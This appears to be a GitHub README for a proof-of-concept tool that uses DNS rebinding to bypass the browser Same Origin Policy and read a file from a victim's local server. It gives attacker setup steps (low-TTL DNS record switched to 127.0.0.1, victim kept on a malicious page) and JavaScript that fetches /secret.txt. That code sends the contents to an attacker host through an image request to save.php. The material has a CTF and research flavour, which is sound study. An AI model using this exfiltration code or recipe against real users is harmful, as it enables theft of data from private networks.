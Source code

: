 # Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retrieve local server file.

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use [DNS-rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the SOP and retrieve the file.

> This attack can be used to breach a private network by causing the victim's web browser to access machines at private IP addresses and returning the results to the attacker.

![BY-SOP](http://mpgn.fr/ressources/img/ByP-SOP.jpg)

**Important** : use the same port, `127.0.0.1` is different from `127.0.0.1:8080`, same with https (check this [example](https://developer.mozilla.org/fr/docs/Web/JavaScript/Same_origin_policy_for_JavaScript))

### Victim:

- visit the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker:
    
* attacker setup a domain with the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retrieve the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retrieve the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` don't need to allow Cross-origin resource sharing (CORS) from 127.0.0.1:80 to accept the request. In fact, img are incompatible with SOP. 
    But if you really want an execption, in PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally we have:
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Setup

* Use the file `malicious.html`, the file `bypass_sop.html` is the same but more for academic comprehension.

* Add a subdomain with TTL 59 (120 in Cloudflare)
* Add another subdomain and allow CORS from your domain if you use GET or just use `image.src` to bypass the restriction CORS
* Victim
    - launch a local server `http-server -p 80 Dir`
    - launch the browser
    - go on sub.domain.com/malicious.html
* Change the DNS ip
* Wait
* Get the result into the other subdomain you setup

## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/ByP-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html


